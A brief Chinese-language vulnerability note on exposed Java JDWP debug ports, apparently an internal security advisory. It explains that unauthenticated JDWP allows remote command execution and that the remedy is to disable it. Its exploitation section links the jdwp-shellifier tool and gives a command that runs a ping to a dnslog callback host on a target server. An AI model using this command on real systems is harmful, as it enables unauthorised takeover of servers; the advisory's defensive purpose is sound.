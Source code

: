 ### 一 漏洞描述
JDWP 属于是JPDA的组成模块，JPDA由三个相对独立的层次组成，由低级到高级分别是java虚拟机工具接口 (JVMTI), Java调试线协议(JDWP)以及Java调试接口 （JDI）,其中调试命令和调试结果，都是通过JDWP的通讯协议进行传输的，所有命令被封装成JDWP命令包发送到被调试的服务器上执行，由于此项功能经常被用来当作JAVA远程调试方法，并且默认情况下对所有调试客户端都允许直接连接服务器，攻击者可以利用客户端发送任意命令来执行任何恶意的操作达到接管服务器的目的

JDWP在内网中大量存在，但是业务有必要使用。不允许JDWP开放在线上环境，测试环境只能放过了。

### 二 漏洞利用
https://github.com/IOActive/jdwp-shellifier/blob/master/jdwp-shellifier.py
python jdwp-shellifier.py  -t xxx -p xxx --cmd 'ping xxx.dnslog.cn'

### 三 漏洞修复
关闭JDWP

> 参考链接  
> https://blog.csdn.net/caiqiiqi/article/details/83146415
